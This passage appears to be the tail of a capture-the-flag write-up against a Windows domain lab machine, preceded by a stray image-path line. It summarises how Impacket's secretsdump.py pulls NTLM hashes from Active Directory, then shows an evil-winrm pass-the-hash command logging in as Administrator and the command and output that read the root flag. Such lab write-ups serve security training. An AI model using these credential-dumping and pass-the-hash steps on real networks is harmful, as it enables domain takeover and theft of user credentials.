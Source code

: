 secretsdump.py from Impacket:

- Extracts all NTLM password hashes from the AD database.
    
- Decrypts the hashes using the boot key from SYSTEM hive.
    
- Gives you **Administrator**, service accounts, and **every domain user**.



And then we login to `Administrator` user by passing the `Hash` of it
```
evil-winrm -i 10.10.11.35 -u 'Administrator' -H '2b87e7c93a3e8a0ea4a581937016f341'
```



And we read the `Administrator` flag:
```
*Evil-WinRM* PS C:\Users\Administrator\Desktop> type root.txt
b7f5853cee9799decd3e77fe0037a438
```


